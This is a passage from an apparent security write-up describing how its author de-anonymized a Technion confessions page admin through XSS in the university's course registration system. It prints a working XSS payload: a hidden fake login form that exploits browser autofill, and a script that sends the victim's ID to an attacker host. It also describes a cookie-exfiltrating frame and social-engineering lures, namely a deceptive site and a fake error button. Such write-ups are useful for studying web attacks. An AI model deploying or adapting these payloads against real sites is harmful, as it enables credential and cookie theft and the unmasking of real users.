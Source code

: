     style="position:fixed;top:-10000px;right:-10000px;width:20000px;height:20000px"></div>
{% endhighlight %}

I made the frame cover the whole page with low opacity so that it's practically invisible. Once the mouse hovers anywhere on the page, the script starts a timer, which in turn, sends the value of the cookies every time the value changes. That also means that even if the victim logs in to the course registration system from another tab while the staff poll information website is open, his cookies will be sent to the attacker.

![Cookies being sent to the attacker]({{ site.baseurl }}/images/The-De-anonymization-of-the-Technion-Confessions-Admin/Cookies-being-sent-to-the-attacker.png)  
_Cookies being sent to the attacker._

The website also claims (deceptively) that the victim needs to be logged in to the course registration system to use it, which may make some sense to the victim, since both are Technion systems. I did so in the hope that at some point the victim would indeed log in to the course registration system, which would trigger the timer and cause his cookies to be sent.

## The Attack - Exploiting the XSS, Stage Two

Clicking on any of the buttons on the staff poll information website that I made opens a course registration system popup with another XSS, which then tries to steal the visitor's ID if username/password completion is enabled in the browser. The payload contains a hidden form that imitates the course registration system's login form to trick the browser to auto-complete it, and contains code with a timer which sends the auto-completed ID once it's no longer empty:

{% highlight html %}
<form><input type="tel" name="UID" style="position:fixed;top:-1000px" />
<input type="password" name="PWD" style="position:fixed;top:-1000px" /></form>
<div id="14213-30-id"
    data-html="true"
    data-toggle="popover"
    data-trigger="hover"
    data-content="<script>
        if (!window._ATTACK_RAN) {
            window._ATTACK_RAN = 1;
            var url = 'https://attacker.example.com/';
            var timer = setInterval(function () {
                var uid = $('input[name=UID]').val();
                if (uid) {
                    location = url+'?id='+encodeURIComponent(uid);
                    clearInterval(timer);
                }
            }, 100);
        }
        </script>"
    style="position:fixed;top:-10000px;right:-10000px;width:20000px;height:20000px"></div>
{% endhighlight %}

Chrome has [security mitigations](https://bugs.chromium.org/p/chromium/issues/detail?id=669724) related to username/password auto-completion, which cause the auto-completion to take place only after the user interacts with the page, e.g. clicks anywhere. To trick the victim to click on the page, I added a fake error message with a "continue" button in the hope that the victim would click on it.
